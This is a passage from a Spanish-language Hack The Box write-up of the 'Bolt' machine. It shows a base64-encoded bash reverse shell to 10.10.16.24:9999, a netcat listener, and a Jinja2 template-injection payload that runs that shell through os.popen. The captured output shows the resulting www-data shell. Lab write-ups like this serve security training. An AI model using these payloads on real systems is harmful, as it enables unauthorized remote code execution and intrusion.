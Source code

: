 Primero vamos a convertir nuestro comando para la shell inversa a base64 para que no haya problemas:

```console
p3ntest1ng:~$ echo -n 'bash -i >& /dev/tcp/10.10.16.24/9999 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNC85OTk5IDA+JjE=
```

Nos ponemos en escucha con **`netcat`** por el puerto que hayamos elegido y enviamos el payload en la web:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
```

Este es nuestro payload completo:
> {{cycler.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNC85OTk5IDA+JjE= | base64 -d | bash').read()}}

![Payload](/assets/images/hackthebox/bolt/payload3.png)

Enviamos el formulario, revisamos en el correo electrónico, pinchamos en el enlace y finalmente obtenemos nuestra shell.

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.24] from (UNKNOWN) [10.10.11.114] 41374
bash: cannot set terminal process group (901): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bolt:~/demo$ 
```

Como es habitual, siempre que obtenemos una shell tenemos que realizar un pequeño tratamiento a la tty:
